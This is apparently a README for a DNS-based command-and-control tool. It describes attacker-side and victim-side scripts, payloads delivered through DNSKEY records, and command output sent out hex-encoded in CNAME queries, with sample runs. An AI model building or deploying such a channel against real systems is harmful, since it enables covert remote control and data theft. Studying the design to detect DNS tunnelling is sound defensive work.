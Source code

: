 WiP weaponized CnC through DNS.

this is just a demonstration of how to use DNS as a CnC server.
To execute, just run dns_dirty_server.py on the attacker machine, by default it listen on 127.0.0.1:4242.
Then run dns_dirty_client.py on the victim machine, by default it will try to connect to 127.0.0.1:4242.

how it works:
  - The server will act as a real DNS server, and can answer to any DNS query.
  - The server can overwrite DNS records on the fly, based on value in the dns_beacon.json file.
  - The client will send a DNS query to the server, and the server will answer with the value in the dns_beacon.json file or with the real DNS response.
  - If the client make a query of the type "DNSKEY", then the server will catch it, ask for the payload, and store it in the DNSKEY record.
  - Then the client will execute the payload, and send the result to the server through a DNS query of the type "CNAME".
  - The server will catch the result from the CNAME query, reconstruct the result, and print it.


Example for a simple ls command:
```shell
>> python dns_dirty_server.py 
DNS is listening on 127.0.0.1:4242
Enter the answer for toto.org. (DNSKEY): ls
README.md
dns_beacon.json
dns_dirty_server.py
wrapper_dirty.py
```

`` shell
>> python wrapper_dirty.py 
2a524541444d452e6d640a646e735f626561636f6e2e6a736f6e0a646e735f.toto.org
1a64697274795f7365727665722e70790a777261707065725f64697274792e.toto.org
0a70790a.toto.org
```

and for a legit DNS query:
```shell
 >> python dns_dirty_server.py 
DNS is listening on 127.0.0.1:4242
```

```shell
>> dig A google.fr @127.0.0.1 -p 4242

; <<>> DiG 9.20.4 <<>> A google.fr @127.0.0.1 -p 4242
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56507
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;google.fr.			IN	A

;; ANSWER SECTION:
google.fr.		75	IN	A	216.58.214.163

;; Query time: 16 msec
;; SERVER: 127.0.0.1#4242(127.0.0.1) (UDP)
;; WHEN: Wed Jan 01 13:39:46 CET 2025
;; MSG SIZE  rcvd: 43
```

